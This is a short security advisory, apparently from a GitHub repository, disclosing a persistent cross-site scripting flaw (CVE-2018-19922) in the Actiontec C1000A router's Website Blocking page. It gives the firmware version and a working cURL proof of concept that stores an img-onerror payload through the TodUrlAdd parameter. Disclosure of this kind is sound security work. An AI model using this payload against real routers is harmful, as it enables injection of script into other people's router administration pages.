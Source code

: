 # Persistent XSS in the Actiontec C1000A router Website Blocking page
**Vendor**: Actiontec

**Product**: C1000A

**Firmware Version**: CAC004-31.30L.95

**CVE**: [CVE-2018-19922](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19922)

## Verification:
1. Make an HTTP request to the router where 192.168.0.1 is the router's local IP address, for example with this cURL POC:
```
curl "http://192.168.0.1/urlfilter.cmd?action=set_url&TodUrlAdd=<img+src=x+onerror=\"alert(String.fromCharCode(88,83,83))\"/>&Lan_IP=192.168.0.2&listtype=Exclude" -X POST
```
(The HTML payload is passed in the `TodUrlAdd` parameter. Even though this is a POST request, parameters are still passed in the URL.)

2. Open up the page Advanced Setup -> Website Blocking (/advancedsetup_websiteblocking.html) to verify that the XSS is there. It should show an alert box with the text "XSS".
